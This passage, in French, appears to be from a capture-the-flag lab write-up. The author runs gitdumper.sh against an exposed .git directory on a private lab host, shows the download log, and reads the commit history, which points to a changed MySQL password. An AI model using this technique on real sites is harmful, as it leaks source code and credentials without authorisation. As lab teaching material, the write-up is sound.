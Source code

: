 ```console
root@blinils:~# ./gitdumper.sh http://192.168.56.102/.git/ git-dump
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating /root/git-dump/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[+] Downloaded: objects/6c/4cfa185870956f7a782ac7ea4046f80691067e
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/c2/377e9afe253329d0119282f1f47799574db651
[+] Downloaded: objects/7f/ddf15ba2e08ccb3bf66273f2631e397c2b938d
[+] Downloaded: objects/8a/ab41cdc56359963e5b202f723b1de4c647612b
[+] Downloaded: objects/14/3decbc568bcde1accf6a9064467159d52b8697
--snip--
[+] Downloaded: objects/f3/2702980580cdf730fdca069850bd0453ae89fa
[+] Downloaded: objects/c4/210e918116bf88bae9533df3d90d7c5a943c3c
[+] Downloaded: objects/a4/ec2a2b63431a3625c351753417af8ca30d8093
[+] Downloaded: objects/99/5df52065bc250180081f895070ee63de05bfe7
[+] Downloaded: objects/c0/4d21b76ecfec013db907302f6bd35afff6cef9
```

L'historique des validations (_commit history_) est on ne peut plus clair : un mot de passe MySQL est présent quelque part.

```console
root@blinils:~/git-dump/.git/logs# cat HEAD
0000000000000000000000000000000000000000 c2377e9afe253329d0119282f1f47799574db651
root <root@localhost.localdomain> 1370011280 -0400	commit (initial): Changed the password for connection to MySQL.
c2377e9afe253329d0119282f1f47799574db651 7fddf15ba2e08ccb3bf66273f2631e397c2b938d
John Goldman (Ninja) <jgoldman@localhost.localdomain> 1370011345 -0400	commit (amend): Changed the password for connection to MySQL.
7fddf15ba2e08ccb3bf66273f2631e397c2b938d 6c4cfa185870956f7a782ac7ea4046f80691067e
John Goldman (Ninja) <jgoldman@localhost.localdomain> 1370013236 -0400	commit: initial commit
```
